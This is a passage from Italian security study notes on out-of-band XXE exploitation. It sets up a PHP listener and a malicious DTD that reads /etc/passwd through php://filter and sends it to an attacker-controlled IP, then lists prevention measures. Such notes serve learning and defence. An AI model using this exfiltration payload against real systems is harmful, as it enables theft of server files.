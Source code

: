 sulla nostra macchina creiamo un file index.php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```

e un file xxe.dtd nella stessa cartella con questo contenuto, modificando il path del file che vogliamo leggere, in questo caso /etc/passwd

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.253:8000/?content=%file;'>">
```

e avviamo il server php

```shell
$ php -S 0.0.0.0:8000
```

inviata la richiesta, nella shell, come log del server php, possiamo leggere il file che ci interessa

### Prevenzione XXE

- aggiornare le librerie
- configurazione xml safe
  - Disable referencing custom Document Type Definitions (DTDs)
  - Disable referencing External XML Entities
  - Disable Parameter Entity processing
  - Disable support for XInclude
  - Prevent Entity Reference Loops

With the various issues and vulnerabilities introduced by XML data, many also recommend using other formats, such as JSON or YAML. This also includes avoiding API standards that rely on XML (e.g., SOAP) and using JSON-based APIs instead (e.g., REST).
